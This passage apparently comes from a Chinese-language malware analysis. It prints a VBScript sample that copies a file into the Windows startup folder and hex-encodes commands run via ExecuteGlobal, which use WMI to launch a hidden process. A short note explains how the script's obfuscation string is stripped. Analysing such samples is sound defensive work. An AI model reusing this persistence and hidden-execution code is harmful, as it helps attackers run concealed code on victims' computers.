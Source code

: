 ```

sCmd = "cmd /c copy """ &amp; sSourceFile &amp; """ """ &amp; startupfolder &amp; """ /Y"
exec(sCmd)

End sub
Sub exec(gggg)



jk=sHexDecode("536574206f626a574d4953657276696365203d204765744f626a656374282277696e6d676d74733a7b696d706572736f6e6174696f6e4c6576656c3d696d706572736f6e6174657d215c5c2e5c726f6f745c63696d76322229203a20")
jk2=sHexDecode("44696d206f626a574d49536572766963652c6f626a537461727475702c6f626a50726f636573732c6f626a436f6e6669672c696e7450726f6365737349442c696e7452657475726e203a20")


    ExecuteGlobal _ 
 sHexDecode("4f7074696f6e204578706c696369743a20") &amp; _
    sHexDecode("53756220657865632867676767293a20") &amp; _
 jk2 &amp; _
 jk &amp; _
 sHexDecode("536574206f626a53746172747570203d206f626a574d49536572766963652e476574282257696e33325f50726f636573735374617274757022293a20") &amp; _
 sHexDecode("536574206f626a436f6e666967203d206f626a537461727475702e537061776e496e7374616e63655f3a20") &amp; _
    sHexDecode("6f626a436f6e6669672e53686f7757696e646f77203d2030203a20") &amp; _
 sHexDecode("536574206f626a50726f63657373203d206f626a574d49536572766963652e476574282257696e33325f50726f636573732229203a20") &amp; _
 sHexDecode("696e7452657475726e203d206f626a50726f636573732e43726561746528676767672c204e756c6c2c206f626a436f6e6669672c20696e7450726f63657373494429203a20") &amp; _
    sHexDecode("456e64205375623a")



 End sub
Public Function sHexDecode(sData) 
 Dim sOutString 
 Dim sTmpChar 
 For iChar = 1 To Len(sData) Step 2
sTmpChar = Chr("&amp;H" &amp; Mid(sData, iChar, 2))
sOutString = sOutString &amp; sTmpChar
Next 
 sHexDecode = sOutString
End Function

```

该段VBS代码较长，我们在编辑器中可以看到，该段vbs首先会对f变量进行两次赋值，然后通过

f = replace(f,”@#_**CooperANDsteal||”,”11”) 的操作将中间的混淆值去掉

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ccb186d8f2bad5f2.png)
